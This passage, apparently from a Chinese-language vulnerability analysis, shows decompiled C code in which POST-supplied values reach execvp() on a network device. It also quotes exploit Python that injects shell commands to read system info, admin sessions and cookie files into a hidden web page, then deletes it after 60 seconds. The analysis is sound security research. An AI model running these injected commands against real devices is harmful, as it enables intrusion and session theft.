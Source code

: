 ```
  ......
  pid = fork();
  if ( !pid )
  {
    close(pipedes);
    dup2(fd, 1);
    dup2(fd, 2);
	
	//接下来将字符s直到'\0'前整个字符串依次赋给argv所指向的字符数组
    v7 = &s;
    v6 = &s;
    v5 = 0;
    while ( *v6 )
    {
      if ( *v6 == 32 )
      {
        *v6 = 0;
        (&argv)[4 * v5++] = v7;
        v7 = ++v6;
      }
      else if ( !*++v6 )
      {
        (&argv)[4 * v5] = v7;
        v4[v5] = 0;
      }
    }
    //关键点，执行系统PATH路径中，file所指向名字的程序，并传递argv指向的参数值给该程序
    //该函数两个参数均由post请求提交，均可控
    execvp(&file, &argv);
```
如果file指向`"sh -c"`，argv指向`"ls"`等系统命令，那么就能达到执行任意系统命令的目的。



## 三、漏洞利用分析
```
.....
def touch(self,resp=None):
    out = []
    if not resp:
        resp = self.head(self.target_url)
    if 'etag' in resp.headers:
        etag,date = self._parse_etag(resp.headers['etag'])
        ##

        out.append("Etag - %s; Last modified - %s" % (etag,date))
    self.timeout = None
    return out
```
获取`etag`标识和修改时间   
```
def probe(self):
    temp = randstr(7)
    ##

    self.log.info("Scheduling cleanup in 60 seconds...")
    self._run_cmd("( sleep 60 && rm -f /www/htdocs/site/pages/.%s )" % temp)

    self.log.info("Probing system and retrieving target info...")
    ##

    self._run_cmd("( cat /e*/is* && uname -a && /t*/b*/cfgt* system admininfo showonline && cat /*/*coo*/* )>/www/htdocs/site/pages/.%s"% temp)
    res = self.get("/site/pages/.%s" % temp)
```